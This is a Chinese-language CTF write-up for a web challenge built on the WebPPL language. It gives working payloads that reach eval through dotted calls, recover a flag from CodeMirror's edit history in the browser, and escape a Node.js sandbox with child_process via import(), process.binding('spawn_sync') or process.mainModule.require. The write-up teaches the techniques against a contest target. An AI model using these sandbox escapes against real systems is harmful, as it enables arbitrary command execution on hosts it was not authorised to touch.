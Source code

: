 # [Web] 概率题目概率过

- 命题人：xmcp
- 前端开发：300 分
- 后端开发：250 分

## 题目描述

<p>我们极为先进的概率编程语言已经完全超越了传统编程语言。</p>
<p>在传统编程语言中，每个 <code>if</code> 语句只能执行一个分支，因此逐个遍历所有程序状态需要指数的时间复杂度。在概率编程语言中，你会以为每个 <code>if</code> 语句可以同时进入两个分支，从而产生它不需要指数时间复杂度的错觉，但实际上它还是会逐个遍历所有程序状态，依然需要指数的时间复杂度。</p>
<p>为了解决理想与实际的矛盾，WebPPL 概率编程语言创新性地选择了 JavaScript 作为宿主语言。大家都知道，JavaScript 既可以在前端运行，也可以在后端运行，这就自然地引入了概率，使得你的 payload 在被观测之前既可能打的是前端，也可能打的是后端。运行一段 WebPPL 代码就像附身为原生孙悟空，手持如意时间棒，对我们的多元宇宙发号施令。后面忘了</p>
<p><em>↑ 上面这些怪话与解题方式并没有什么关联，就像许多其他题面一样</em></p>
<p><strong>总之，你可以提交一段 WebPPL 程序，然后选择在前端或者后端运行它。</strong></p>
<p><strong>提示：</strong></p>
<ul>
<li>本题跟概率编程没有什么关系。在设法实现 <code>eval</code> 后就可以不管 WebPPL 了，后面的部分是在环境中拿 Flag 的 JavaScript 编程题。</li>
<li>Flag 1：如果你的注意力不够集中，浏览器开发者工具的 Heap snapshot 功能或许可以帮助你。</li>
</ul>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>Flag 1：前端使用的代码编辑器是 CodeMirror。</li>
<li>Flag 2：虽然你没有 <code>require()</code>，但是你有其他的好东西，甚至包括 <code>import()</code>。</li>
</ul>
</div>

**【网页链接：访问WebPPL网站】**

**[【附件：下载题目源码（web-ppl-src.zip）】](attachment/web-ppl-src.zip)**

**【终端交互：连接到题目】**

## 预期解法

### 拿到 eval

我们先玩一玩这个 WebPPL。发现它是一个基于 JavaScript 的概率编程语言，但我们完全不关心什么是概率编程语言，我们只想拿到 Flag。

既然它基于 JavaScript，我们先试着写点 JavaScript：

![image-20241020010957714](assets/image-20241020010957714.png)

啊这是什么玩意？

![image-20241020011028586](assets/image-20241020011028586.png)

啊这又是什么玩意？

稍微尝试即可发现一些端倪，它在运行我们的代码前，会进行一些 <del>糟蹋</del> 变换，使得我们很难接触到原生的 JavaScript 环境，各种语法也被搞得面目全非，比如不让用循环，也不让赋值（我去，函数式！）。如果你好奇它具体是怎么 <del>糟蹋</del> 变换的，可以这样看：

![image-20241020011427129](assets/image-20241020011427129.png)

总之我们的第一个目标是拿到一个类似于 `eval` 这样的函数，能让我们的代码不经过它的糟蹋直接执行。这样写后续的利用会方便很多。

**注意到**我们虽然不能直接 `eval()`，但是可以用任何中间带点的形式去调用  `eval`，包括但不限于：

```javascript
window.eval(1);
globalThis.eval(1);
eval.call(null, 1);
Function.constructor('return 1').call();
globalStore.eval = eval; globalStore.eval(1);
```

什么，注意不到？那可以去看看 [WebPPL 的文档](https://webppl.readthedocs.io/en/master/language.html#calling-javascript-functions)，文档解释了所有形如 `foo()` 的函数调用都会被理解为对概率函数的调用，因此在执行前都会被它糟蹋；而形如 `foo.bar()` 这样的中间带点的方法调用则被认为是使用 JavaScript 库函数，不会被糟蹋。在文档的结尾，它还贴心地提供了一个 `_top`（是 `window` 的别名）来帮我们调用全局函数：

![image-20241020012026260](assets/image-20241020012026260.png)

所以，最清真的拿到 eval 的方式应该是 `_top.eval()`。

### Flag 1

拿到 eval 之后，我们就可以在网页里执行任意代码，从而获取上一条命令留下的 Flag……等下，执行我们的代码时，上一条命令的结果已经被清空了，从哪拿 Flag？

这时只需**注意到** Flag 的内容曾经被输入到了文本框里，而这个文本框用的编辑器是 CodeMirror，它可以直接获取历史记录：

![image-20241020012358572](assets/image-20241020012358572.png)

所以可以构造出如下 payload：

```javascript
document.querySelector('.CodeMirror').CodeMirror.doc.history.done.forEach(d=>{
    if(d.changes)
        d.changes.forEach(c=>{
            let t = c.text.join('');
            if(t.includes('flag{'))
                document.title = t;
        });
});
```

再把这些代码套进我们已经获得的 eval 里即可。当然，用其他的姿势，比如不停 `undo`，效果也是一样的。

什么，注意不到？为了提升注意力，我们可以利用浏览器开发者工具的 Heap snapshot 功能检查 JS 环境里究竟有什么东西。我们直接搜索 flag 字符串：

![image-20241020012736805](assets/image-20241020012736805.png)

然后底下 “Retainers” 那一栏显示的就是所有可以到达这个字符串的路径。其中有一条路径特别有意思，因为它写着：

![image-20241020013430389](assets/image-20241020013430389.png)

我去，*User object reachable from window!* 这不就爽了吗。顺着这条链里面的图标看下去，正是我们刚才构造的那一坨 `document.querySelector('.CodeMirror').CodeMirror.doc.history.done`。

### Flag 2

与上一个 Flag 相同，我们可以轻松拿到 `eval`。只不过这次我们跑到了 NodeJS 环境里面，需要执行系统命令来拿 Flag。执行命令？这个简单：

![image-20241020013950733](assets/image-20241020013950733.png)

跑一下发现，哦豁，没有 `require`。不过**注意到**我们虽然没有 `require`，但是有 `import`。所以可以如法炮制：

```javascript
import('child_process').then(m=>m.exec('/printflag2', console.log));
```

发现虽然它报了个错，但 Flag 实际上也正常输出了。这里报错的原因是那个读 flag 的 C 程序的 `main` 函数没写返回值，所以它调用的 `puts` 的返回值被传递为了 `main` 的返回值。C 语言，很神奇吧！

![image-20241020014430695](assets/image-20241020014430695.png)

什么，注意不到 `import`？没关系，实际上出题的时候我也没注意到。但既然都拿到 `eval` 了，这题不就是个小号的 NodeJS 沙箱逃逸吗？随便在网上搜搜师傅们做完沙箱逃逸是怎么利用的：

![image-20241020015046826](assets/image-20241020015046826.png)

直接点开 [NetSPI 这个博客](https://www.netspi.com/blog/technical-blog/web-application-pentesting/escape-nodejs-sandboxes/)，它说可以用 `process.binding` 调用 NodeJS 底层的 API，从而手搓出来各种标准库：

![image-20241020015118011](assets/image-20241020015118011.png)

然后进一步给了一个 [Gist](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822) 链接，里面有手搓出来的 `spawnSync` 函数，用来执行命令：

![image-20241020015240754](assets/image-20241020015240754.png)

所以，出题时我抄来的预期解是这样的：

```javascript
eval.call(global,
    "spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};"+
    "(function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);"+
    "isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;})('/printflag2', []).stdout.toString()"
);
```

## 其他解法

这题的自由度非常高，因此各种选手都搞出了各种各样的解法。

比如，Flag 1 未必要拿到 eval，只需要保证你的 EXP 所有函数调用都带点就行。比如这样：

```javascript
_.assign(document, {title: JSON.stringify(document.querySelector(".wpedit")[Object.keys(document.querySelector(".wpedit"))[0]]._currentElement._owner._instance.refs.editor.getCodeMirror().doc.history.done[15]) });
```

也有选手**注意到** Flag 1 本来在闭包里的 `compileCache` 可以通过奇技淫巧拿到，令人震惊：

```javascript
const aaa = wpEditor.setup(document.querySelector('.btn'), {language:'javascript'});
aaa.refs.editor.getCodeMirror().setValue('document.title=Object.keys(compileCache)[0];')
aaa.runCode();
```

也有人直接给编辑器发 ctrl+Z 撤销的。同学你是不是刚做完 web-crx 回来？

```javascript
let textarea = document.querySelector('.CodeMirror textarea');
textarea.dispatchEvent(new KeyboardEvent('keydown', {
    key: 'z',
    code: 'KeyZ',
    keyCode: 90,
    ctrlKey: true,
    shiftKey: false,
    altKey: false,
    metaKey: false,
    bubbles: true,
    cancelable: true
}));

```

Flag 2 也可以从 `process.mainModule` 里拿到 require，比如：

```javascript
process.mainModule.require("child_process").spawnSync(...)
```

